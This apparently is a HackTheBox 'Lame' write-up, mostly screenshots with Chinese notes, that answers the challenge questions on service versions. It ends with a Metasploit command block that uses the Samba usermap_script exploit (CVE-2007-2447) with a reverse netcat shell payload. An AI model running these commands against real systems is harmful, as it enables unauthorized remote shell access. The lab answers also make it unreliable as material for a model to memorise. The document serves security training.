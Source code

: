 HackTheBox

1.How many of the nmap top 1000 TCP ports are open on the remote host?

![image](https://github.com/user-attachments/assets/7a33649b-012d-4895-9da0-32f59dd6302d)

執行畫面

![image](https://github.com/user-attachments/assets/8d83f47a-87e8-48e8-8658-699d7c09fa08)

ans:4

2.What version of VSFTPd is running on Lame?

![image](https://github.com/user-attachments/assets/37503d04-baa6-4d9c-9a9b-000583c989a6)

執行畫面

![image](https://github.com/user-attachments/assets/fe00ac21-ba10-41cf-85d2-028db69fb7d0)

ans:2.3.4

3.There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?
  VSFTPd 2.3.4 的後門漏洞在這台 Lame 機器上是否可被成功利用？

  ![image](https://github.com/user-attachments/assets/dda3ede2-df54-4fde-9118-e1937bea4c48)

執行畫面

  ![image](https://github.com/user-attachments/assets/5bdf18ac-f39e-4bc8-95b2-bba98ef8a4a4)

  ![image](https://github.com/user-attachments/assets/6f6b9a00-1239-4e63-b2f8-ccde5d3d4ec4)

執行畫面

  ![image](https://github.com/user-attachments/assets/f838a785-b551-46e4-8646-dea137aee549)

  ![image](https://github.com/user-attachments/assets/ee3c085d-fb0b-4715-88bb-485743bf4ef9)

ans:No

4.What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".
  題目要求你找出在 Lame 靶機 上運行的 Samba（SMB）伺服器版本號，只填寫 數字部分，不要包含像 -Debian 的發行版本資訊。

  ![image](https://github.com/user-attachments/assets/a50f0009-4268-41bd-802d-1dfc4cdc4e3f)
  
  執行畫面
  
  ![image](https://github.com/user-attachments/assets/fa70969f-aeff-4b76-9276-4c7ab9ab4ebe)

  ![image](https://github.com/user-attachments/assets/f0b951f0-3884-41aa-8aef-51feed9fba26)
  
  執行畫面 
  
  ![image](https://github.com/user-attachments/assets/3004d88e-1ee3-499b-ad98-d7fc5621d6f4)

知道版本號，就可以從GOOGLE查該版本的CVE漏洞使用

  ![image](https://github.com/user-attachments/assets/308c8dfc-1b0c-44b8-8485-245a85b0fbab)


5.攻擊流程
Submit the flag located in the makis user's home directory.

![image](https://github.com/user-attachments/assets/690b98e0-ea7a-44a4-8add-b4c0feb760cb)

執行畫面 

![image](https://github.com/user-attachments/assets/b3bd4273-1e2d-4008-9f14-ab16520f7b11)

無法確認版本，改用smbclient

![image](https://github.com/user-attachments/assets/66a0b06c-2804-481f-9d28-77817fd3229a)

找出版本為3.0.20

![image](https://github.com/user-attachments/assets/e62836e2-ec70-40af-8ddc-c6cfed281760)

![image](https://github.com/user-attachments/assets/3abc2f22-f81f-4749-bc2c-1e97e0a56036)




```
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set PAYLOAD cmd/unix/reverse_netcat
set LHOST <IP>
run
  ```

  啟動 Metasploit 主控台工具，用來執行滲透模組。
  選擇針對 CVE-2007-2447 的 Samba 利用模組。
  RHOSTS：遠端目標主機 IP。
  使用最簡單的 Linux shell payload：反向連線給你一個 Netcat shell。
  LHOST 是你的 Kali 機器的 VPN IP，讓靶機知道要連回哪裡。
  設定你開啟 Netcat 來接收 shell 的 port。
  送出 exploit，嘗試利用漏洞。



  

  

